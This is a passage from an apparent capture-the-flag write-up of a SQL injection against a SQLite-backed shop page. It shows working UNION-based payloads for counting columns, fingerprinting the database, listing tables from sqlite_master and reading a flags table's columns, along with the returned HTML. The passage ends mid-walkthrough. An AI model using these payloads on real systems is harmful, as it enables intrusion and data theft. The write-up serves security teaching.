 ```html
		<td>A gaming keyboard with customizable RGB lighting.</td>
	</tr>                
</table>
```

Showing that an SQL injection is possible. From now I'm going to truncate the inputs and results for my sanity.

I bet we need to execute a UNION attack, which requires us to know the number of columns in the current table. Beyond the name and details column, there's a hidden primary key column, so let's try to UNION the result with 3 columns of made up values:
```sql
item=Otamatone' UNION SELECT 'a','b','c'--
```

This successfully concatenates an extra result:
```html
<tr>
	<td>b</td>
	<td>c</td>
</tr>
```

To prove this is the case, adding or removing a value causes an error to be thrown:
```html
<p>An error occurred.</p>
```

Now we need to figure out if there are any other tables in the database, but first we need to fingerprint the database used by the backend. I've done a lot of SQL injection, and it almost is always done in SQLite. We can use the following query to test my suspicion:
```SQL
item=Otamatone' OR sqlite_version()=sqlite_version()--
```

This returns the same result as my first query which shows all the entries in the table, that is `sqlite_version()` evaluates to a value, meaning that the app is using SQLite on the backend. We can use this information to look a list of all the tables in the database:
```SQL
item=Otamatone' UNION SELECT 'a', name,'c' FROM sqlite_master--
```

This returned:
```html
<tr>
	<td>flags18999e4de24f117351f28f01382746e3</td>
	<td>c</td>
</tr>
```

Looks like there is a table called `flags18999e4de24f117351f28f01382746e3` in the database. Let's look at the column names of the table so we know what to fuse it with:
```sql
item=Otamatone' UNION SELECT 'a', name,'c' FROM PRAGMA_TABLE_INFO('flags18999e4de24f117351f28f01382746e3')--
```
